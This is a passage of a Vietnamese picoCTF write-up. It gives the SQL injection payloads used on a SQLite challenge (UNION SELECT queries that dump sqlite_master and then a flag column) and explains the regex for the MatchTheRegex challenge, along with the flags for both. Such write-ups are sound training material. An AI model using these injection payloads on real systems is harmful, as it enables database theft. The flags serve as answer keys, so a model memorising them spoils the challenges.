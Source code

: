 -- Tiếp theo, lấy tên và lệnh tạo ra đối tượng cho bảng tương ứng -> `abc' UNION SELECT name, sql, NULL FROM sqlite_master--` -> Phát hiện ra trong bảng more_table có một cột flag

![alt text](./images/image-50.png)

-- Lấy nội dung cột flag từ bảng more_table : `abc' UNION SELECT NULL, flag, null FROM more_table--` -> Flag : `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}`

![alt text](./images/image-52.png)


# MatchTheRegex
-- `^p.....F!?` : có vẻ như đây là biểu thức chính quy -> ^p : bắt đầu bằng kí tự p, .....F : 5 kí tự bất kì(ngoại trừ xuống dòng) và 1 kí tự F tiếp theo, !? : 1 dấu ! hoặc 0 ! . Ví dụ :  pabcdeF! , p12345F, ...

![alt text](./images/image-53.png)

-- Gửi chuỗi thỏa biểu thức chính quy -> FLag : `picoCTF{succ3ssfully_matchtheregex_08c310c6}`

![alt text](./images/image-54.png)
